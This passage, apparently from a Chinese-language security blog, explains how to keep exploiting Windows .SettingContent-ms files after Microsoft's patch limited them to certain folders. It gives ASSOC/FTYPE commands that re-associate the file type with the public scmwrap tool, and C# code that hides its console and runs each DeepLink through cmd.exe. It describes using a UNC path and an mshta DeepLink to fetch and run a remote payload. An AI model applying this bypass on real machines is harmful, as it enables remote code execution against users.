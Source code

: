 ```
  &lt;/SearchableContent&gt;
&lt;/PCSettings&gt;
```

微软对该漏洞发布的补丁程序对执行路径做了判断，只有在%AppData%\Local\Packages\windows.immersivecontrolpanel_cw5n1h2txyewy\LocalState\Indexed\Settings\[GetUserPreferredUILanguages]或%WinDir%\immersivecontrolpanel\settings子目录内打开SettingContent-ms后缀文件才能进入执行控制面板设置分支执行命令，所以如果我们在打了补丁的电脑上进行利用没有放在指定的文件夹，可能会出现下面的报错

[![](https://p3.ssl.qhimg.com/t01a069fb20b3e20d20.png)](https://p3.ssl.qhimg.com/t01a069fb20b3e20d20.png)

所以极大程序上限制了我们的利用，在打了补丁的电脑中，已经获取权限的情况下，可以这么利用网上的一款公开的工具scmwrap进行配置.SettingContent-ms后缀文件的打开方式，利用.SettingContent-ms的因为我们还是可以利用unc路径指向它进行执行，而且不会出现安全警告问题，并且其deeplink支持传递参数，这样后续在具备openExternal可控点的情况下只需要远程指定一个.SettingContent-ms执行就可以实现rce，例如deeplink内容为调用mshta下载远程payload执行

scmwrap工具安装配置的就是下面的内容

```
ASSOC .SettingContent-ms = NewSettingContentMs
FTYPE NewSettingContentMs="C:\Users\xxxx\Desktop\scmwrap.exe" "%1"
```

scmwrap.exe的解析原理使用的是xml解析，然后获取DeepLink参数进行执行

```
ShowWindow(GetConsoleWindow(), SW_HIDE);

XmlDocument XmlDoc = new XmlDocument();

XmlDoc.Load(args[0]);

bool FoundDeepLink = false;

XmlNodeList Nodes = XmlDoc.GetElementsByTagName("DeepLink");
for (int i = 0; i &lt;= Nodes.Count - 1; i++) `{`
    ShellExecute(0, "open", "cmd.exe", "/C " + Nodes[i].InnerText.Replace("\n", "").Replace("\r", ""), "", 0);

    Console.WriteLine("Call: " + Nodes[i].InnerText.Replace("\n", "").Replace("\r", ""));

    FoundDeepLink = true;
`}`

if (!FoundDeepLink) `{`
    Console.WriteLine("No deep link found");
`}`

Console.ReadLine();
```

所以只要我们设置了.SettingContent-ms的执行方式，那么我们就可以在任意目录双击打开它了，因为它本质上就是配置了如下内容

[![](https://p2.ssl.qhimg.com/t012fa3a5c490055934.png)](https://p2.ssl.qhimg.com/t012fa3a5c490055934.png)

桌面直接执行
